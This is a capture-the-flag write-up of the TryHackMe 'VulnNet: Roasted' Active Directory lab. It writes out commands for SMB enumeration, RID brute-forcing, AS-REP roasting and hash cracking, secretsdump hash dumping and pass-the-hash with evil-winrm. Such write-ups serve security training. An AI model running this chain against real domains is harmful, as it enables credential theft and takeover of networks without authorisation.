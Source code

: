 # VulnNet: Roasted

Link to room: https://tryhackme.com/room/vulnnetroasted

### This is a Windows activie directory machine

Let's start with an nmap scan:

```python
# Nmap 7.91 scan initiated Sun May 16 16:34:12 2021 as: nmap -p- -v -sC -sV -Pn -oN nmap-all-ports vulnet.thm
Nmap scan report for vulnet.thm (10.10.123.68)
Host is up (0.23s latency).
Not shown: 65515 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-05-16 21:04:34Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-05-16T21:05:40
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 16 17:06:24 2021 -- 1 IP address (1 host up) scanned in 1932.04 seconds
```

Based on some of the opened ports like 53(DNS) and 88(kerberos), we can predict this is a windows active directory machine

## SMB Enum

we can enumerate shares anonymously providing a null password using smbmap
```python
╭── /opt/share/tryhackme/vulnet  master ✘✘✘ ✭  
╰────▶ smbmap -H vulnet.thm -u guest -p ''
[+] IP: vulnet.thm:445  Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing
```

There are read-only access to three shares (IPC$, VulnNet-Business-Anonymous, and VulnNet-Enterprise-Anonymous).
The IPC$ share hints us of the possibility to do anonymous user enumeration. We will come to that later. Let's access the last two shares and see what contents they have

```python
╭── /opt/share/tryhackme/vulnet/smb_loot  master ✘✘✘
╰────▶ smbclient //vulnet.thm/VulnNet-Business-Anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 12 21:46:40 2021
  ..                                  D        0  Fri Mar 12 21:46:40 2021
  Business-Manager.txt                A      758  Thu Mar 11 20:24:34 2021
  Business-Sections.txt               A      654  Thu Mar 11 20:24:34 2021
  Business-Tracking.txt               A      471  Thu Mar 11 20:24:34 2021


╭── /opt/share/tryhackme/vulnet/smb_loot  master ✘✘✘ ✭  
╰────▶ smbclient //vulnet.thm/VulnNet-Enterprise-Anonymous                           
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 12 21:46:40 2021
  ..                                  D        0  Fri Mar 12 21:46:40 2021
  Enterprise-Operations.txt           A      467  Thu Mar 11 20:24:34 2021
  Enterprise-Safety.txt               A      503  Thu Mar 11 20:24:34 2021
  Enterprise-Sync.txt                 A      496  Thu Mar 11 20:24:34 2021
```
##
Download all the contents onto our local machine
```
smb: \> mget *
```
##
We get potential usernames and other info from the downloaded files from smb. so let's build our username list. Spoiler alert!!, the usernames in the files were generic and didn't match with those created on the machine

Time to find a way to enumerate usernames on the box. i will be using rid-brute from crackmapexec
```python
crackmapexec smb vulnet.thm -u robot -p '' --rid-brute | grep  SidTypeUser
```
Since anonymous login allowed, you can replace username robot with whatever name you like. I used robot because i am ROBOT -:)

![image](https://user-images.githubusercontent.com/68066436/118685539-3038aa80-b7d1-11eb-91e9-572fcd48794a.png)

##
Extract the usernames with RID greater than 1000 into a username file. I named my file users.txt with below usernames

```
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```
##
Try kerberoasting with the username file returns a hash for t-skid (Implies user t-skid does not require kerberos pre-authentication)

```python
python3 GetNPUsers.py -dc-ip 10.10.176.144 -usersfile users.txt vulnnet-rst.local/
```
![image](https://user-images.githubusercontent.com/68066436/118688670-41cf8180-b7d4-11eb-9917-96222176f67f.png)

Put whole hash (from $krb to end of hash) in a file and crack with john-the-ripper
```python
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt kerberoasting-hash
```
![image](https://user-images.githubusercontent.com/68066436/118689287-d1753000-b7d4-11eb-8b7f-869cfe676122.png)

Creds for t-skid
```
user: t-skid
pass: <redacted>
```

Try to access smb again with the new creds to see if we can elevate our access to some shares
```python
smbmap -H vulnet.thm -u t-skid -p '<redacted>'
```
![image](https://user-images.githubusercontent.com/68066436/118689875-77c13580-b7d5-11eb-88a7-c99bc26d771f.png)
Notice t-skid now has read access to NETLOGON and SYSVOL shares which we did not have with the anonymous logins

Let's access NETLOGON share with smbclient and see what we've got in there using t-skid's creds
```python
smbclient //vulnet.thm/NETLOGON -U t-skid
```
![image](https://user-images.githubusercontent.com/68066436/118690902-82c89580-b7d6-11eb-95f2-9fb1715a6c6b.png)

##
We get a new username and password after downloading and reading the content of ResetPassword.vbs
![image](https://user-images.githubusercontent.com/68066436/118691117-bf948c80-b7d6-11eb-9360-202d1f66c064.png)

Creds for a-whitehat
```
user: a-whitehat
pass: <redacted>
```

Pass a-whitehat's creds into evil-winrm to get the initial foothold into the machine
```python
evil-winrm -i vulnet.thm -u a-whitehat -p <redacted>
```
![image](https://user-images.githubusercontent.com/68066436/118693125-c45a4000-b7d8-11eb-9b0b-cf9abceba4aa.png)


## Privilege Escalation

Checked groups and realised user a-whitehat belong to the domain admins group, this will enable us dump hashes from SAM database using secretsdump.py from impacket

![image](https://user-images.githubusercontent.com/68066436/118693532-21ee8c80-b7d9-11eb-9b2d-195be8421d32.png)

Let's dump the hashes with secretsdump
```python
python3 secretsdump.py -just-dc a-whitehat:<redacted password>@vulnnet-rst.local
```
![image](https://user-images.githubusercontent.com/68066436/118694206-d2f52700-b7d9-11eb-9b00-698568e0e87f.png)

What do we do now that we have the administrator's hashes? Erhmmm, let's pass-the-hash using evil-winrm
```python
evil-winrm -i vulnet.thm -u administrator -H <redacted NTLM hash of administrator>
```
![image](https://user-images.githubusercontent.com/68066436/118695296-084e4480-b7db-11eb-8194-300f527f336b.png)

We have successfully escalated our privilege to administrator!!!!!


## Flags
Time to grab the flags

### User Flag:
Navigate to C:\users\enterprise-core-vn\Desktop\user.txt
![image](https://user-images.githubusercontent.com/68066436/118696979-d63de200-b7dc-11eb-8d86-a6da70a933aa.png)

### System Flag:
Navigate to C:\Users\Administrator\Desktop\system.txt
![image](https://user-images.githubusercontent.com/68066436/118696998-db029600-b7dc-11eb-8f7d-e0673173e282.png)



##
This is the end of my write-up, hope you enjoyed reading....



